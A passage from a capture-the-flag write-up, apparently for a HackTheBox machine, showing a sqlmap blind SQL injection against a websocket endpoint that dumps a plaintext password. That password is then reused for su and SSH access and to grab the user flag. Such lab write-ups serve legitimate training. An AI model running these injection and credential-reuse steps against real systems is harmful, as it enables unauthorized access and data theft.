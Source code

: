 > Using `--dump` in a boolean and time-based SQL injections could be very slow. So be careful! But given this is a CTF I’m not expecting tons of data.

```bash
$ sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 -D soccer_db -T accounts --dump --threads 10

...[snip]...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
...[snip]...
```

The user is player and the password is in plaintext.

## Ready Player One

That password works for the player user on the box with `su`:

```bash
www-data@soccer:/etc/nginx/sites-enabled$ su player -
Password:

player@soccer:/etc/nginx/sites-enabled$
```

And SSH as well, which is convenient:

```bash
$ sshpass -p PlayerOftheMatch2022 ssh player@soccer.htb                                                         130 ⨯

...[snip]...
player@soccer:~$
```

This allows me to grab the first flag:

```bash
player@soccer:~$ cat user.txt

22003113ce91c12b9aea04640079cb62
```

## I’am root

When I get access to a Linux machine I always like to test some low hanging fruit manually first. Like `sudo`, but it’s not configured for the player use

```bash
player@soccer:~$ sudo -l
[sudo] password for player:
Sorry, user player may not run sudo on localhost.
```
